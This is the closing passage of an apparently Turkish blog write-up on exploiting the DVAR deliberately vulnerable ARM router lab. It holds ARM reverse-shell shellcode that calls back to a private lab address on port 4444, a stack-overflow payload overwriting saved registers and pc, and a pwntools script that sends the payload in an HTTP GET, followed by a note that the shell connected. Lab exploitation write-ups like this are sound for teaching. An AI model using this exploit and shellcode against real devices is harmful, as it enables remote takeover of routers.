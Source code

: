 reverse_shell = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x40\x40\x02\x30\x01\x21\x52\x40\x64\x27\xb5\x37\x01\xdf\x06\x1c\x0b\xa1\x4a\x70\x10\x22\x02\x37\x01\xdf\x30\x1c\x49\x40\x3f\x27\x01\xdf\x30\x1c\x01\x31\x01\xdf\x30\x1c\x01\x31\x01\xdf\x06\xa0\x52\x40\x05\xb4\x69\x46\xc2\x71\x0b\x27\x01\xdf\xff\xff\xff\xff\x02\xaa\x11\x5c\xc0\xa8\xe3\x82\x2f\x62\x69\x6e\x2f\x73\x68\x58"

payload = buff
payload += r11
payload += struct.pack("I", lr)
payload += stuff
payload += struct.pack("I", r3)
payload += r4
payload += r5
payload += struct.pack("I", r6)
payload += r7
payload += r8
payload += sb
payload += sl
payload += fp
payload += struct.pack("I", pc)
payload += reverse_shell

conn = remote('192.168.227.128', 80)
conn.send(b'GET /' + payload +"\r\n\r\n")
{% endhighlight %}

<img src="{{site.baseurl}}/pictures/dvar_26.png">

<img src="{{site.baseurl}}/pictures/dvar_27.png">

Exploit kod başarıyla çalıştı ve host makinemizde dinlemeye alıdığımız 4444 port'una  reverse shell bağlantısı gerçekleştirdi. Buraya kadar okuyanlara teşekkür ederim . Gelecek yazılarda görüşmek üzere :)

[bu]: https://blog.exploitlab.net/2018/01/dvar-damn-vulnerable-arm-router.html
